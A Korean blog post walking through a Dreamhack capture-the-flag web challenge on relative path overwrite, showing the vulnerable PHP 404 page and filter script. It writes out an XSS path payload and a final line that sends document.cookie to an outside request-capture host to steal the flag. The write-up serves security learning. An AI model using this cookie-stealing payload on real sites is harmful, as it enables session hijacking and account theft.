 ```yaml
---
title: (36) Dreamhack Relative Path Overwrite Advanced 문제 풀이
date: 2024-02-13 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
이 문제는 전에 올렸던 Dreamhack Relative Path Overwrite의 업그레이드 문제입니다.  
사이트는 저번과 똑같은데 404 페이지가 추가 되었습니다.
![](https://kyuyeop.github.io/assets/img/post/36/1.png)
존재하지 않는 페이지에 접속을 시도하면 위와 같이 `{입력한 url} not found.`가 보여집니다. 404 페이지의 코드는 다음과 같습니다.
```php
<?php 
    header("HTTP/1.1 200 OK");
    echo $_SERVER["REQUEST_URI"] . " not found."; 
?>
```
입력한 uri를 반환하는 굉장히 정직한 코드입니다.  
  
추가로 vuln 페이지의 코드도 살짝 바뀌었습니다.
```php
<script src="filter.js"></script>
<pre id=param></pre>
<script>
    var param_elem = document.getElementById("param");
    var url = new URL(window.location.href);
    var param = url.searchParams.get("param");
    if (typeof filter === 'undefined') {
        param = "nope !!";
    }
    else {
        for (var i = 0; i < filter.length; i++) {
            if (param.toLowerCase().includes(filter[i])) {
                param = "nope !!";
                break;
            }
        }
    }

    param_elem.innerHTML = param;
</script>
```
이제는 `filter`만 없어도 `nope!!`이 나와버립니다.
![](https://kyuyeop.github.io/assets/img/post/36/2.png)
`filter.js`의 위치도 `static`폴더 내부로 옮겨 져서 `filter.js`가 기본적으로 불러와지지 않는 모습입니다.  
  
여기서 취약점이 발생합니다. 개발자도구로 `filter.js`를 열어보면
![](https://kyuyeop.github.io/assets/img/post/36/3.png)
`/filter.js`가 존재하지 않는 페이지라서 404페이지의 내용이 들어간 모습입니다.
  
만약 `filter.js`가 불러와질 경로에 스크립트를 포함 시킬 수 있다면 어떨까요?
```
/index.php/;alert(0);//?page=vuln
```
위와 같은 경로로 접속하게 된다면 서버는 index.php를 통해 vuln 페이지를 보여줄거고, filter.js의 내용은
![](https://kyuyeop.github.io/assets/img/post/36/4.png)
위와 같이 바뀌어 버립니다. 앞은 `;`로 우리가 필요한 스크립트에 영향을 못 주게 하고, 뒷부분은 `//`로 주석처리 해버립니다.
![](https://kyuyeop.github.io/assets/img/post/36/5.png)
그러면 이렇게 alert이 실행되는걸 볼 수 있습니다.  
  
이제 다 해결한거나 다름 없습니다. 이전에 했던것 처럼 드림핵 툴즈를 이용해 flag를 빼와보도록 하겠습니다.
```
index.php/;location='https://ojxhcap.request.dreamhack.games/'+document.cookie;//?page=vuln
```
을 입력해 주도록 하겠습니다.    
  
그동안은 `?`로 넘겨주었지만 이번에 `?`를 이용하지 않고 `/`로 넘겨준 이유는 `?` 이후 문자열이 get파라미터로 인식되지 않기 위함이고, url encoding 과정이 없으므로 `%2b`가 아니라 `+`를 그대로 사용합니다.
![](https://kyuyeop.github.io/assets/img/post/36/6.png)
드림핵 툴즈로 돌아가서 기록을 확인해보면 flag를 얻을 수 있습니다.
{% endraw %}